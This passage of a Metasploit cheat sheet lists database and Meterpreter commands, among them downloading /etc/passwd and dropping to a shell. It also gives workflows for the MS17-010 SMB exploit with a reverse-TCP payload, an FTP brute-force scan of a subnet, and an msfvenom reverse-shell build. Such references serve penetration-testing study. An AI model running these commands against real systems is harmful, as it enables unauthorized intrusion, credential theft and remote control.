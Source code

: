 
### Database Management
| Command         | Description                                                                                      | Example                               |
|------------------|--------------------------------------------------------------------------------------------------|---------------------------------------|
| `db_status`     | Check the status of the database.                                                                | `db_status`                           |
| `workspace`     | Manage multiple workspaces.                                                                      | `workspace add test_workspace`        |
| `hosts`         | List discovered hosts.                                                                           | `hosts`                               |
| `services`      | List services discovered during scans.                                                           | `services`                            |

---

### Meterpreter-Specific Commands
| Command         | Description                                                                                      | Example                               |
|------------------|--------------------------------------------------------------------------------------------------|---------------------------------------|
| `getuid`        | Shows the user ID of the current session.                                                        | `getuid`                              |
| `sysinfo`       | Displays system information of the target.                                                       | `sysinfo`                             |
| `download`      | Downloads a file from the target system.                                                         | `download /etc/passwd`                |
| `upload`        | Uploads a file to the target system.                                                             | `upload shell.exe`                    |
| `shell`         | Drops to a command shell on the target.                                                          | `shell`                               |
| `exit`          | Exits the Meterpreter session.                                                                   | `exit`                                |

---

### Examples of Common Workflows
1. **Exploit SMB Vulnerability (MS17-010)**
   ```bash
   use exploit/windows/smb/ms17_010
   set RHOSTS 192.168.1.100
   set LHOST 192.168.1.10
   set PAYLOAD windows/meterpreter/reverse_tcp
   exploit
   ```

2. **Run an FTP Brute Force Attack**
   ```bash
   use auxiliary/scanner/ftp/ftp_login
   set RHOSTS 192.168.1.0/24
   set USER_FILE /usr/share/wordlists/usernames.txt
   set PASS_FILE /usr/share/wordlists/passwords.txt
   run
   ```

3. **Create a Reverse Shell Payload**
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > reverse_shell.exe
   ```
